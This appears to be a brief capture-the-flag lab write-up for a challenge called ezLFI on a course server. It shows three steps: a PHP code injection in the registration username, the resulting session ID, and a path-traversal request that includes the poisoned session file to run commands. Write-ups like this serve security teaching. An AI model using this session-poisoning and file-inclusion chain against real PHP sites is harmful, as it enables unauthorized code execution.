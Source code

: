 # Lab0x03 Writeup

## ezLFI
1. https://edu-ctf.csie.org:10157/?action=register
user=<?php system("ls -al");
2. sessid = kje7fdu65vfrfe1tnur1cpqte2
3. finally https://edu-ctf.csie.org:10157/?action=module&m=../../../var/lib/php/session/sess_kje7fdu65vfrfe1tnur1cpqte2
